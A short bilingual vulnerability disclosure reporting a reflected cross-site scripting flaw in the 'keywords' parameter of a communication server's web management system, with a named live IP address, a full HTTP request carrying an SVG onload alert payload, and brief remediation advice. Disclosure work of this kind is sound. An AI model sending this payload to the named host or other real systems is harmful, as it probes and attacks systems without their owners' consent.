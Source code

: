 # xss vulnerability of keywords parameter in web management system of communication server

### 企业官网(Enterprise official website)：

http://117.157.85.8:9092/

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

```
GET /?callback=p5620&cat=javq6&categoryid=te9s2&emailto=ih705&from=s7mr2&immagine=q9kp4&jsonp=evxp0&key=jza06&keywords=<svg onload=alert('xss')>//&lang=hqp59&list_type=twby9&mod=ndiw0&month=tq8g8&name=cshm7&q=h9540&region=yecb3&terms=eo7f1&token=y9kz9&url=veet0&view=n6ff4 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip
```

![](12.png)



### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

